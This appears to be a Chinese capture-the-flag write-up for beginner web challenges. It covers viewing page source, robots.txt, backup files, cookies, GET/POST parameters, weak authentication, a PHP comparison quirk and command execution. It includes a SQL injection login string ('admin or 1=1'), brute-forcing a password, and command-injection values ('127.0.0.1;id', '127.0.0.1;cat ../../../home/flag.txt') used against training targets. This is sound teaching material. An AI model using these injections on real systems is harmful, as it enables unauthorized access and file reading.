# view_source



```markup
F12

ctrl+u

ctrl+shift+i

URL前添加：view-source:

curl http://192.168.1.1
```

# robots



根据题目提示，查看一下robots.txt



/flag_ls_h3re.php



# backup



/index.php.bak

```markup
┌──(kali㉿kali)-[~]
└─$ cat index.php.bak                
<html>
<head>
    <meta charset="UTF-8">
    <title>备份文件</title>
    <link href="http://libs.baidu.com/bootstrap/3.0.3/css/bootstrap.min.css" rel="stylesheet" />
    <style>
        body{
            margin-left:auto;
            margin-right:auto;
            margin-TOP:200PX;
            width:20em;
        }
    </style>
</head>
<body>
<h3>你知道index.php的备份文件名吗？</h3>
<?php
$flag="Cyberpeace{855A1C4B3401294CB6604CCC98BDE334}"
?>
</body>
</html>
```

# cookie


查看一下cookie



看一下/cookie.php



找到了flag



# disabled_button



将源代码中的disabled删除
点击flag按钮



# get_post



用max hackbar在url后面加上?a=1



选择post，添加b=2



得到flag



# weak_auth



尝试万能密码：' admin or 1=1 -- #



尝试进行爆破





用爆破出来的密码进行登录



# simple_php


后面添加?a=0 && b=1235abc


# Training-WWW-Robots


查看/robots.txt


/fl0g.php


# command_execution


127.0.0.1;id，可以执行


查找flag：127.0.0.1;cat ../../../home/flag.txt

